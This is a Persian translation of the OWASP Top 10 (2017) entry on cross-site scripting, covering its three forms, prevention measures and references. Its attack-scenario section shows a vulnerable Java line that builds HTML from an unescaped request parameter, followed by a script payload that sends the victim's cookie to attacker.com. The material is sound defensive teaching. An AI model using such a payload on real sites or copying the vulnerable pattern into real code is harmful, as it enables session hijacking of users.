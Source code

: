 # <div dir="rtl" align="right">A7:2017 Cross-Site Scripting (XSS) </div>

| Threat agents/Attack vectors | Security Weakness           | Impacts               |
| -- | -- | -- |
| Access Lvl : قابلیت بهره‌برداری: ۳ | شیوع: ۳ : قابل کشف بودن: ۳ | تکنیکی: ۲ : Business ? |
| <div dir="rtl" align="right">ابزارهای خودکار می‌توانند تمام 3 شکل ممکن XSS را شناسایی و اکسپلویت کنند و چارچوب های اکسپلویت در دسترس رایگانی وجود دارد. </div> | <div dir="rtl" align="right">XSS دومین مسئله مهم درOWASP Top 10 است و در حدود دو سوم از تمام برنامه های کاربردی یافت می‌شود.ابزارهای خودکار می‌توانند برخی از مشکلاتXSS  را به صورت خودکار، به ویژه در فن آوری های بالغ مانند PHP، J2EE / JSP و ASP.NET پیدا کنند.</div> | <div dir="rtl" align="right">تأثیر XSS برای انواع بازتابی و DOM XSS متوسط است و برای XSS ذخیره شده با اجرای کد از راه دور در مرورگر قربانی شدید است مانند سرقت اعتبارها، جلسات و یا ارائه بد افزارها به قربانیان.</div> |

## <div dir="rtl" align="right">آیا برنامه کاربردی آسیب پذیر است ؟</div>

<p dir="rtl" align="right">سه شکل از XSS وجود دارد که معمولا مرورگرهای کاربران را هدف قرار می‌دهند:</p>

<ul dir="rtl" align="right">
  <li>
    <strong>XSS  منعکس شده: </strong>
     برنامه یا API شامل ورودی کاربر غیرقابل اعتبار و غیرقانونی به عنوان بخشی از خروجی HTML است. یک حمله موفقیت آمیز می‌تواند به حمله کننده اجازه دهد HTML و JavaScript دلخواهی را در مرورگر قربانی اجرا کند. به طور معمول، کاربر نیاز به ارتباط با برخی از لینک های مخرب دارد که به یک صفحه کنترل شده توسط مهاجم اشاره می‌کند، مانند وب سایت های آگهی مخرب، تبلیغات و یا مشابه این ها.
  </li>
  <li>
    <strong>XSS ذخیره شده: </strong>
    برنامه کاربردی یا API ورودی کاربر تصفیه نشده را که بعدا توسط یک کاربر یا مدیر دیگر مشاهده می‌شود، ذخیره می‌کند. XSS ذخیره شده اغلب کاربر را با خطر بالایی از ریسک روبه رو می‌کند.
  </li>
  <li>
    <strong>DOM XSS: </strong>
    چارچوب های جاوا اسکریپت، برنامه های تک صفحه وAPI هایی که به طور پویا شامل داده های قابل کنترل مهاجم به یک صفحه می‌شوند، به DOM XSS آسیب پذیر هستند. در حالت ایده آل، برنامه اطلاعات قابل کنترل مهاجم را به API های جاوا اسکریپت نا امن ارسال نمی‌کند.
  </li>
</ul>

<p dir="rtl" align="right">حملات متداول XSS عبارتند از: سرقت نشست، گرفتن حساب، دور زدن MFA، جایگزینی یا حذف گره DOM (از قبیل پنل های ورود به سیستم تروجان)، حملات علیه مرورگر کاربر مانند دریافت نرم افزارهای مخرب، کلید ورود به سیستم و سایر حملات سمت مشتری.</p>

## <div dir="rtl" align="right">نحوه پیشگیری از حمله : </div>

<p dir="rtl" align="right">پیشگیری ازپیشگیری ازXSS  نیاز به جداسازی داده های غیر قابل اعتماد از محتوای فعال مرورگر دارد. این کار با انجام موارد زیر قابل دسترسی است:</p>

<ul dir="rtl" align="right">
  <li>با استفاده از چارچوب هایی که به صورت خودکار از وقوع XSS فرار می‌کنند به وسیله طراحی، همانند آخرین Ruby on Rails، React JS. محدودیت های حفاظت XSS  هر چارچوب را بیاموزید و به طور مناسب موارد استفاده را که پوشش داده نمی‌شوند، مدیریت کنید.
  </li>
  <li>فرار داده های درخواست HTTP نامعتبر براساس متن در خروجی HTML (بدنه، ویژگی، جاوا اسکریپت، CSS، یا URL ) آسیب پذیری های XSS ذخیره شده و منعکس شده را حل خواهد کرد.  
  </li>
  <li>
    با استفاده از رمزگذاری حساس به متن هنگام تغییر سند مرورگر در سمت مشتری بر علیه DOM XSS عمل می‌کند. هنگامی‌که از انجام این کار اجتناب نکنیم، تکنیک های فرار از حساسیت متن مشابه می‌توانند به API های مرورگر اعمال شوند، همانطور که در<a href="https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html">OWASP Cheat Sheet 'XSS Prevention'</a> توضیح داده شده است. </li>
  <li>
    فعال کردن یک سیاست امنیتی محتوا <a href="https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP">(CSP)</a>  یک کنترل دفاع در عمق در برابر XSS  است. این مؤثر است اگر هیچ آسیب پذیری دیگری وجود نداشته باشد که اجازه می‌دهد کدهای مخرب را از طریق فایل محلی شامل شود (مثلا مسیرهای رونویسی شده یا کتابخانه های آسیب پذیر از شبکه های تحویل مجاز محتوا).
  </li>
</ul>

## <div dir="rtl" align="right">نمونه سناریو حمله</div>

<p dir="rtl" align="right"><strong>سناریو 1: </strong>برنامه بدون تایید یا escape، از داده های غیر قابل اعتماد در ساخت قطعه HTML زیر استفاده می‌کند:</p>

`(String) page += "<input name='creditcard' type='TEXT' value='" + request.getParameter("CC") + "'>";`
<p dir="rtl" align="right">مهاجم پارامتر CC را در مرورگر خود به صورت زیر تغییر می‌دهد :</p>

`'><script>document.location='https://attacker.com/cgi-bin/cookie.cgi?foo='+document.cookie</script>'`

<p dir="rtl" align="right">این حمله باعث می‌شود شناسه نشست قربانی به وب سایت مهاجم ارسال شده و به مهاجم اجازه سرقت نشست فعلی کاربر را می‌دهد.</p>

<p dir="rtl" align="right"><strong>نکته : </strong>مهاجمان می‌توانند ازXSS برای جلوگیری از هرگونه دفاع خودکار CSRF که برنامه کاربردی به کار می‌برد، استفاده کنند.</p>

## <div dir="rtl" align="right">منابع</div>

### <div dir="rtl" align="right">OWASP</div>

- [OWASP Proactive Controls: Encode Data](https://owasp.org/www-project-proactive-controls/v3/en/c4-encode-escape-data)
- [OWASP Proactive Controls: Validate Data](https://owasp.org/www-project-proactive-controls/v3/en/c4-encode-escape-data)
- [OWASP Application Security Verification Standard: V5](https://owasp.org/www-project-application-security-verification-standard/)
- [OWASP Testing Guide: Testing for Reflected XSS](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/01-Testing_for_Reflected_Cross_Site_Scripting)
- [OWASP Testing Guide: Testing for Stored XSS](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/02-Testing_for_Stored_Cross_Site_Scripting)
- [OWASP Testing Guide: Testing for DOM XSS](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/11-Client-side_Testing/01-Testing_for_DOM-based_Cross_Site_Scripting)
- [OWASP Cheat Sheet: XSS Prevention](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)
- [OWASP Cheat Sheet: DOM based XSS Prevention](https://cheatsheetseries.owasp.org/cheatsheets/DOM_based_XSS_Prevention_Cheat_Sheet.html)
- [OWASP Cheat Sheet: XSS Filter Evasion](https://owasp.org/www-community/xss-filter-evasion-cheatsheet)
- [OWASP Java Encoder Project](https://owasp.org/www-project-java-encoder/)

### <div dir="rtl" align="right">خارجی</div>

- [CWE-79: Improper neutralization of user supplied input](https://cwe.mitre.org/data/definitions/79.html)
- [PortSwigger: Client-side template injection](https://portswigger.net/kb/issues/00200308_client-side-template-injection)
